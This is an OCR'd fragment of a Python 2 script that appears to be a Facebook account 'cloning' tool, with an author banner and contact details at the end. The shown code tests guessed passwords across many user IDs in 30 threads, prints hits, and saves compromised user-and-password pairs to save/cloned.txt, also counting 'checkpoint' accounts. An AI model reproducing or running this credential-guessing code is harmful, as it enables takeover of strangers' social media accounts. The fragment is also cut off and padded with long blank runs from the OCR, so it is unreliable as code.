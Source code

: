                                             else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Rashed Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Rashed Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 07 to 09 days")
    print ''
    print """
    ______________________
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║ ╔════════════╗ ╚════════════╝
  ║██████████╚╗
  ║██╔══╗█╔═╗█║
  ║██║╬╔╝█╚╗║█║
  ║██╚═╝█║█╚╝█║
  ╚╗█████████═╝
     ╚╗║╠╩╩╩╩╩╝
        ║║┈┈┈█▐█████▒.｡oO
        ║██╠╦╦╦╗
        ╚╗██████
           ╚════╝

\033[1;96mThanks me later
\033[1;96m my contacts Number: +27618543540
\033[1;95mFb\033[1;97mRashed Hossain
\033[1;95mfacebook\033[1;97mhttps://www.facebook.com/Wwwwwwwwwwww.Mizan.Vau8080"""

    
    raw_input("\n\033[1;92m[\033[1;92mRashedBack\033[1;95m]")
    login() 
          